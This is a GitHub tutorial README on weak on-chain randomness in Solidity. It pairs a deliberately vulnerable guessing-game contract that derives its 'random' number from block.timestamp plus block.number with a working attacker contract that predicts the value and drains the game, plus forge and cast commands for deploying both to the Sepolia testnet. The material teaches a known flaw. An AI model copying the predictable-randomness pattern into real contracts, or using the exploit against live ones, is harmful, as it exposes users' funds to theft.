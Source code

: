 # Randomness-attack- 
## 1- What is Randomness?
run same code get diffirent result

## 2- what is Determinisitic System?
   * Same Input == Same Outbut
   * every node must agree on the same state
    
  ```solidity
 function test(uint256 a) public pure returns(uint256){
      return a*2;
   }          // same input same output
   
```
 ![Image](https://github.com/user-attachments/assets/266e1bd8-ba9d-4746-a793-4fb934ed254b)


## 3- why we need randomness in web3
   * Games NFT (Non Fungible Tokens  ) [ERC721](https://docs.openzeppelin.com/contracts/3.x/erc721)  Choose Winner
   * 🏛️ DAO = Decentralized Autonomous Organization choose Member to Voting
   * AirDrops
   * Validatores , committes , nodes  proof of stake (ethereum2, polkadot ,Algorand)
   * Defi Decentralized Finance
     
# Example 01
Smart contract Game to guess number and win the game

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

contract Game {
    constructor() payable{

    }

    function play(uint256 guess) external{
        uint256 randomNumber = block.timestamp + block.number; 

        if(randomNumber == guess){
           payable(msg.sender). transfer(address(this).balance);        
        }
    }

}
```
Command to compile
```
forge compile
```
Command to deploy on sepolia
```
 forge create <contract path> --rpc-url <sepolia rpc>  --private-key <your private key> --value <charge contract with ethereum> --broadcast
```
# 🔌 Who Provides RPC Endpoints?

There are several popular providers that offer reliable RPC endpoints for interacting with blockchain networks:

- [Infura](https://infura.io)
- [Alchemy](https://www.alchemy.com)
- [Ankr](https://www.ankr.com)
- [QuickNode](https://www.quicknode.com)

Alternatively, you can run your own Ethereum node (e.g., using Geth or Nethermind) and host your own RPC endpoint for full control and privacy.


Command to check Balance
```
cast balance 0xYourContractAddress --rpc-url <your rpc>
```
convert from wei to ether

```
cast from-wei 1000000000000000000
```

## Smart contract to attack the Game

```solidity

//SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

interface IGame{
        function play(uint256 guess) external;
    }

contract Attacker{
    IGame public game;  //store Games Address

    constructor(address GameContract) payable{
        game = IGame(GameContract);

    }

    function attack() external payable{
        uint predictNumber = block.timestamp + block.number;
        game.play(predictNumber);
    }
    receive() external payable {}

}
```
Command to compile
```
forge compile <contract path>
```
Command to deploy on sepolia
```
 forge create <contract path> --rpc-url <sepolia rpc>  --private-key <your private key>  --broadcast
```
Command to call function play

```
 cast send <contract address>  --rpc-url <your rpc> --private-key <your private key >   '<function name>'
```

Command to check Balance
```
cast balance 0xYourContractAddress --rpc-url <your rpc>
```



   

